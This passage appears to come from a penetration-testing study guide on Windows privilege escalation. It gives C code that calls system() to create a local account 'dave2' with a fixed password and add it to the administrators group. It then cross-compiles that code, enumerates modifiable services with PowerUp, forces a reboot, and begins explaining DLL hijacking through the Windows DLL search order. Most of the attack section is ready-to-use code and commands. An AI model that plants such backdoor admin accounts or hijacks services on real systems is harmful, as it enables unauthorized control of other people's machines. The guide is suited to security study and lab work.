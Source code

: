 ```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
Or use a reverse shell.
Cross Compiling
```
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Modifying Services for Privilege Escalation
```powershell
. .\PowerUp.ps1
Get-ModifiableServiceFile
```
There are other services which are suggested with it the only way of finding which services are vulnerable for sure is via manual enumeration. Also this might miss some sevices.

### Restarting Services or System
```powershell
shutdown /r /t 0
```

---

## 🎭 DLL Hijacking

Just like hijacking binaries we will hijack dlls used by binary.

Either u can just replace the dll used by the service or use dll search order.
### 🏛 **Old (Legacy) DLL Search Order (Before Windows 7 & Server 2008 R2)**

By default, Windows used this **insecure** DLL search order:

1. **The directory of the executable**
2. **The system directory** (`C:\Windows\System32\`)
3. **The 16-bit system directory** (`C:\Windows\System\`)
4. **The Windows directory** (`C:\Windows\`)
5. **The current working directory (CWD)** ⬅️ **This made DLL hijacking easy!**
6. **The directories listed in `PATH` (environment variable)**
    - First, user directories in `PATH`
    - Then, system directories in `PATH`
### 🛡 **New (Secure) DLL Search Order (Windows 7 & Server 2008 R2 and later)**
